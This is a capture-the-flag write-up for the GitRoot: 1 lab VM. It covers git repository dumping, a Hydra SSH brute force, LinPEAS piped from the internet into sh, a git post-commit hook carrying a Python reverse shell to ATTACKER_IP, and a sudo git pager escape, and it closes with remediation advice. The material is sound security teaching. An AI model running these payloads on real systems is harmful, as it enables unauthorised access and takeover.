





# GitRoot: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.10.162 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | root.txt (via sudo git pager escape) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/gitroot-1,627/) |

## Attack Summary

nmap → WordPress redirect to `wp.gitroot.vuln` → gobuster vhost → `repo.gitroot.vuln` → exposed `.git` → git-dumper + GitTools → `set.php` creds don't SSH → Hydra brute (pablo) → pablo SSH → git repo for beth → commit diff reveals beth password → bet's zip handler → git post-commit hook RCE (jen) → `.viminfo` leaks jen password → sudo git pager escape → root

## Methodology

1. Network discovery and port scan
2. Enumerate virtual hosts
3. Dump and extract exposed git repository
4. Recover credentials from deleted PHP files
5. Brute-force SSH with Hydra
6. Three-hop lateral movement: pablo → beth → jen
7. Root via sudo git pager

---

## Step 1: Network Discovery

```bash
sudo netdiscover
nmap -A -p- 192.168.10.162
```

Port 80 redirects to `wp.gitroot.vuln`. Add to `/etc/hosts`:

```
192.168.10.162  wp.gitroot.vuln
```



---

## Step 2: Virtual Host Enumeration

```bash
gobuster vhost \
  -u http://192.168.10.162 \
  -w /usr/share/wordlists/SecLists/Discovery/DNS/big.txt \
  --append-domain
# Found: repo.gitroot.vuln
```

Add to `/etc/hosts`:

```
192.168.10.162  wp.gitroot.vuln repo.gitroot.vuln
```

The `repo.gitroot.vuln` host runs a code storage service with an exposed `/.git/` directory.



---

## Step 3: Dump Exposed Git Repository

```bash
# Using GitTools
./gitdumper.sh http://repo.gitroot.vuln/.git/ /tmp/gitroot/git-tmp/
./extractor.sh /tmp/gitroot/git-tmp/ /tmp/gitroot/extracted/
```

The extractor recovers deleted files including `pablo_HELP.txt` (not useful) and `set.php`.



---

## Step 4: Recover Credentials from Deleted PHP File

```bash
cat /tmp/gitroot/extracted/*/set.php
# Contains credentials
```

The credentials from `set.php` do not work directly for SSH or WordPress.



---

## Step 5: Hydra SSH Brute-Force (pablo)

```bash
hydra -l pablo -P /usr/share/wordlists/rockyou.txt \
  ssh://192.168.10.162 -t 4 -V
# Found: pablo:<password>

ssh pablo@192.168.10.162
cat user.txt
```

---

## Step 6: Lateral Movement — pablo → beth (via Git commit history)

In pablo's home directory, find a `public/` folder referencing another git repository belonging to user **beth**.

Run LinPEAS to identify the repository path:

```bash
curl -sL https://raw.githubusercontent.com/carlospalop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

Inspect the repository commit logs. Sort `logs/refs/heads/` entries by size to find the most active branch. Review the "add some stuff" commit:

```bash
git log --all --oneline
git show <commit-hash>
# beth's password is in the script
```

---

## Step 7: Lateral Movement — beth → jen (via Git hook RCE)

Log in as beth. Jen has left a message asking beth to drop a `.zip` archive in a specific folder for jen to extract.

Create a malicious git `post-commit` hook:

```bash
mkdir -p /tmp/payload/.git/hooks
cat > /tmp/payload/.git/hooks/post-commit << 'EOF'
#!/bin/bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",9999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
EOF
chmod +x /tmp/payload/.git/hooks/post-commit

# Commit something to trigger the hook
cd /tmp/payload
git init
touch file
git add .
git commit -m "trigger"
```

Compress:

```bash
cd /tmp
7z a payload.zip payload/
cp payload.zip /path/to/jen/incoming/folder/
```

Start a listener:

```bash
nc -lvp 9999
```

When jen's process extracts and processes the zip, the hook fires and delivers a shell.

Read jen's password:

```bash
cat ~/.viminfo
# password is visible in viminfo
```

---

## Step 8: Privilege Escalation — jen → root (sudo git pager)

Log in as jen:

```bash
su jen
sudo -l
# (root) NOPASSWD: /usr/bin/git
```

Use the git pager escape:

```bash
sudo git -p help config
# At the pager prompt, type:
!/bin/sh
```

Read the root flag:

```bash
cat /root/root.txt
```



---

## Lessons Learned

1. **Exposed `.git` directories** allow full repository recovery including deleted files with credentials — block `/.git/` at the web server level
2. **Credentials in version-controlled source files** persist in git history even after deletion; rotate all credentials and force-push to remove history
3. **Wildcard zip extraction** running as another user can be abused via git hooks — always extract in sandboxed environments
4. **sudo git NOPASSWD** enables GTFOBins pager escape — avoid unrestricted sudo for version control binaries

## Remediation

| Vulnerability | Fix |
|---|---|
| Exposed `.git` | Deny access to `/.git/` in web server config |
| Credentials in git history | `git filter-branch` or BFG Repo-Cleaner to rewrite history; rotate secrets |
| Untrusted zip extraction | Sandbox extraction; validate archive contents before processing |
| sudo git | Remove from sudoers or restrict to specific subcommands |
